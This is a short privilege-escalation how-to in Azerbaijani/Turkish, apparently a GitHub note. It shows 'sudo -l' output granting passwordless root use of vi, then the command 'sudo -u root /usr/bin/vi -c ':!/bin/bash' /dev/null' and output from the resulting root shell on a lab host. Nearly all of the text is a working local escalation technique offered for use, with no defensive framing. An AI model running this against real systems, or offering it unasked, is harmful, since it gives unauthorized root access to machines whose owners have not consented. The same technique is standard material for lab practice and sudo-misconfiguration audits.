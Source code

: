 ## Sudo -l verilende eger bunu gorursense:

bu kimi, müəyyən əmrləri root parolu olmadan kök istifadəçi kimi işlədə bildiyinizi görəcəksiniz. Bu, imtiyazları artırmağa imkan verə bilər.


-------
user8@polobox:~$ sudo -l
Matching Defaults entries for user8 on polobox:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user8 may run the following commands on polobox:
    (root) NOPASSWD: /usr/bin/vi
user8@polobox:~$ 
-------

bunu yaz:
# sudo -u root /usr/bin/vi -c ':!/bin/bash' /dev/null

ve bele gorsenecek

user8@polobox:~$ sudo -u root /usr/bin/vi -c ':!/bin/bash' /dev/null

Welcome to Linux Lite 4.4 root
 
Monday 22 January 2024, 07:58:24
Memory Usage: 348/1991MB (17.48%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
